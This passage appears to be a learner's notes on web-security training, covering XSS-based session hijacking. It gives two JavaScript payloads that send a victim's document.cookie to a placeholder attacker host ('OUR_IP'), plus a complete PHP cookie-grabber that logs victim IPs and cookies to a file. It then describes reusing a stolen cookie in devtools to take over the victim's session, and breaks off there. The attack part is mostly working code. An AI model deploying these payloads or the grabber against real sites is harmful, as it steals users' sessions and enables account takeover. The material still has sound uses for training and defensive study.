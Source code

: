 
### Session hijacking 

session hijacking is very similar to phishing, we will need a JS payload to send us the required data and a PHP script on our server to grab and parse the transmitted data   

there are many JS payloads to grab the session cookie like: 

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

the first will navigate to our cookie grabber page and the second adds an image to the page

we can add either of these into our php server into `script.js`

now we can use our script as part of the vulnerable input field and we should get calls to our server with session cookies   
however, if there are a lot of cookies then we might not know which cookie belongs to which header   
this is where we can use our PHP script to parse them and write them to file: 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

then, assuming we have use our payload to load the script.js file, when the user's browser executes the code we will get a response on our server with the cookie value: 

![](Images/Pasted%20image%2020240124210426.png)

so now we can go to the login page and add a cookie in our devtools to match the one we found: 
